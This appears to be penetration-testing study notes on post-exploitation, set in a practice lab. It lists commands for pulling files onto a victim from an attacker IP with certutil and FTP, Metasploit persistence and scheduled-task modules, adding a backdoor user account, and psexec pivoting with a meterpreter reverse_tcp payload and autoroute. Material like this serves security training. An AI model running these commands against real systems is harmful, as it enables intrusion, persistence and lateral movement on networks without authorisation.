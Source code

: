 # Post Exploitation

1. [File Transfers](#file-transfers)
2. [Maintaining Access](#maintaining-access)
3. [Pivoting](#pivoting)
4. [Cleanup](#cleanup)

## File Transfers

* Certutil:

```shell
certutil.exe -urlcache -f http://10.10.10.10/file.txt
```

* HTTP:

```shell
python -m http.server
```

* Browser (navigate directly to file)

* FTP:

```shell
#in attacker machine
python -m pyftpdlib 21

#in victim machine
ftp 10.10.10.10
```

## Maintaining Access

* Persistence scripts:

```shell
#3 methods (noisy)
#in msfconsole
run persistence -h

exploit/windows/local/persistence

exploit/windows/local/registry_persistence
```

* Scheduled tasks:

```shell
#2 methods
#in msfconsole
run scheduleme

run schtaskabuse
```

* Add user:

```shell
#preferred method
net user hacker password123 /add
```

## Pivoting

```shell
#example

#in attacker machine
msfconsole

use exploit/windows/smb/psexec

set rhosts 192.168.57.141

set smbdomain marvel.local

set smbpass Password1

set smbuser fcastle

set payload windows/x64/meterpreter/reverse_tcp

set lhost eth0

set target 2

run
#meterpreter shell

shell
#switches to windows shell

route print
#to check routing

ipconfig

arp -a
#get an idea of machines in network

#move back to meterpreter shell using Ctrl+C

run autoroute -s 10.10.10.0/24
#for pivoting

run autoroute -p
```

## Cleanup

* Remove executables, scripts, added files
* Remove malware, rootkits and added user accounts
* Set settings back to original configs
